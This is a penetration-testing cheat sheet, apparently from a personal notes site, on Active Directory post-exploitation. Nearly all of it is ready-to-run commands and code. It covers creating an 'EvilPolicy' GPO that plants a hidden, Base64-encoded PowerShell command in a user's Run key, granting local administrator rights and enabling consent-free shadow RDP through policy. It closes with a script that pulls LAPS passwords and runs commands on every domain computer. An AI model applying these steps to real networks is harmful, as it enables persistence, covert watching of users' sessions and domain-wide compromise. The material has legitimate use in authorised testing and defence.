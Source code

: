 ```yaml
---
description: Post Exploitation in Active Directory
---
```


# Post Exploitation




## GPOs

Identify the OU containing the `VICTIM-PC` object:

```
PS > Add-WindowsFeature -Name "RSAT-AD-PowerShell"
PS > Import-Module ActiveDirectory
PS > Get-ADComputer -Identity VICTIM-PC | select DistinguishedName
```

Create a GPO using GPMC:

1. Run > `gpmc.msc`.
2. Create a new GPO in the OU in which `VICTIM-PC` resides.
3. Remove `Authenticated Users` from **Security Filtering** and add `VICTIM-PC` there.
4. Link it to the OU and edit it.

Usually, it takes between 90 and 120 minutes for a new GPO to be applied. Force it with:

```
Cmd > gpudate.exe /force
```

{% tabs %}
{% tab title="Enable RDP" %}
```
<POLICY_NAME>
  Computer Configuration
    Policies
      Administrative Templates
        Windows Components
          Remote Desktop Services
            Remote Desktop Session Host
              Connections
                Allow users to connect remotely using Remote Desktop Services
                  Enabled, OK
```
{% endtab %}
{% tab title="Allow RDP Connections" %}
```
<POLICY_NAME>
  Computer Configuration
    Policies
      Windows Settings
        Security Settings
          Windows Defender Firewall with Advanced Security
            Inbound Rules
              (right-click) New Rule
                Predefined (Remote Desktop)
		          Allow the connection, Finish
```
{% endtab %}
{% tab title="Edit Local Administrators Membership" %}
```
<POLICY_NAME>
  Computer Configuration
    Preferences
      Control Panel Settings
        Local Users and Groups
          (right-click) New > Local Group
            Group name (...)
              Members (Add), OK
                Apply, OK
```
{% endtab %}
{% tab title="Enable Shadow RDP" %}
```
<POLICY_NAME>
  Computer Configuration
    Policies
      Administrative Templates
        Windows Components
          Remote Desktop Services
            Remote Desktop Session Host
              Connections
                Set rules for remote control of Terminal Services user sessions
                  Enabled + Options (Full Control without user's permission), OK
```
{% endtab %}
{% tab title="Immediate Scheduled Task" %}
```
<POLICY_NAME>
  Computer Configuration
    Policies
      Preferences
        Control Panel Settings
          Scheduled Tasks
            (right-click) New > Immediate Task (At least Windows 7)
```
{% endtab %}
{% endtabs %}



### Reach a Locked-down Domain Computer

- [How to Hack Like a Pornstar / Best hacking books for aspiring hackers - Real life hacking scenarios](https://www.sparcflow.com/best-hacking-books/)

If you find yourself in a situation when you're already a domain admin and you need to access a locked-down domain computer (no RDP/WinRM, no SMB shares, no owned local admins, etc.), creating an evil GPO may help.

Create a GPO using PowerShell (will trigger a command when the victim user logs in):

```
PS > Add-WindowsFeature -Name "GPMC"
PS > Import-Module GroupPolicy
PS > New-GPO -Name EvilPolicy -Domain megacorp.local -Server DC01.megacorp.local
PS > Set-GPPermission -Name EvilPolicy -Replace -PermissionLevel GpoApply -TargetName "victim.user" -TargetType User
PS > Set-GPPermission -Name EvilPolicy -Replace -PermissionLevel GpoApply -TargetName "VICTIM-PC" -TargetType Computer
PS > Set-GPPermission -Name EvilPolicy -PermissionLevel None -TargetName "Authenticated Users" -TargetType Group
PS > New-GPLink -Name EvilPolicy -Domain megacorp.local -Target "<TARGET_OU>" -Order 1 -Enforced Yes
PS > Set-GPRegistryValue -Name EvilPolicy -Key "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName MSstart -Type String -Value "powershell.exe -NoP -sta -NonI -W Hidden -Exec Bypass -Enc <BASE64_CMD>"
```



### Shadow RDP

- [https://swarm.ptsecurity.com/remote-desktop-services-shadowing/](https://swarm.ptsecurity.com/remote-desktop-services-shadowing/)

Enable Shadow RDP via group policies and connect to an active session on the target machine:

```
Cmd > qwinsta.exe /server:192.168.1.11
Cmd > mstsc.exe /v:192.168.1.11 /shadow:<ID> /noConsentPrompt
```




## Run on Domain Computers

* [How to Hack Like a Pornstar / Best hacking books for aspiring hackers - Real life hacking scenarios](https://www.sparcflow.com/best-hacking-books/)

An example PowerShell script to execute commands as a local admin on all domain computers pulling LAPS passwords automatically:

{% code title="ADComputersCmd.ps1" %}
```powershell
 # Save with Encoding "UTF-8 with BOM"

[System.Console]::OutputEncoding = [System.Text.Encoding]::UTF8
$ErrorActionPreference = "Stop"

$command = '[System.Console]::OutputEncoding = [System.Text.Encoding]::UTF8; '
$command += 'whoami > C:\Windows\Temp\whoami.txt 2>&1'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd | ? {$_.name -ne $(hostname)} | select name,ms-Mcs-AdmPwd | ForEach-Object {
	$comp = $_."name"
	$pass = $_."ms-Mcs-AdmPwd"

	if (Test-Connection -BufferSize 32 -Count 1 -ComputerName $comp -Quiet) {
		try {
			$cred = New-Object System.Management.Automation.PSCredential("$comp\administrator", $(ConvertTo-SecureString $pass -AsPlainText -Force))
			$proc = Invoke-WmiMethod Win32_Process -Name Create -ArgumentList ("powershell -enc $encodedCommand") -ComputerName $comp -Credential $cred

			do {
				Write-Host -ForegroundColor Green "[*] Waiting for script to finish on $comp"
				Start-Sleep -Seconds 2
			} until ((Get-WmiObject -Class Win32_Process -Filter "ProcessId=$proc.ProcessId" -ComputerName $comp -Credential $cred | where {$_.ProcessId -eq $proc.ProcessId}).ProcessId -eq $null)

			net use "\\$comp" /user:administrator $pass 2>&1 | Out-Null
			Get-Content "\\$comp\C$\Windows\Temp\whoami.txt"
			Remove-Item "\\$comp\C$\Windows\Temp\whoami.txt" -Force
			net use "\\$comp" /delete 2>&1 | Out-Null
		}
		catch {
			Write-Host -ForegroundColor Red "[-] Connection failure: $comp"
		}
	}
	else {
		Write-Host -ForegroundColor Yellow "[!] Connection timed out: $comp"
	}
}
```
{% endcode %}
